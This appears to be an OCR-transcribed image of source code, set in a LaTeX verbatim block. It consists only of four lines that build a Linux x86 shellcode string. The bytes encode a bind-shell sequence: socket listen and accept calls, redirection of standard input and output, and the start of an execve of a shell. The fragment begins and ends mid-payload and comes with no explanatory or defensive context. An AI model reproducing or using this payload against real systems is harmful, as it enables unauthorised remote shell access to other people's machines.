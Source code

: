 \documentclass[11pt]{article}
\begin{document}
\begin{verbatim}
shellcode+="\\x89\\xe1\\xcd\\x80\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x04\\x31\\xc9\\x51\\x57"
shellcode+="\\x89\\xe1\\xcd\\x80\\x31\\xc0\\xb0\\x66\\x31\\xdb\\xb3\\x05\\x31\\xc9\\x51\\x51"
shellcode+="\\x57\\x89\\xe1\\xcd\\x80\\x31\\xdb\\x89\\xc3\\x31\\xc9\\xb1\\x02\\xb0\\x3f\\xcd"
shellcode+="\\x80\\x49\\x79\\xf9\\x31\\xc0\\xb0\\x0b\\x31\\xdb\\x53\\x68\\x2f\\x2f\\x73\\x68"

\end{verbatim}
\end{document}
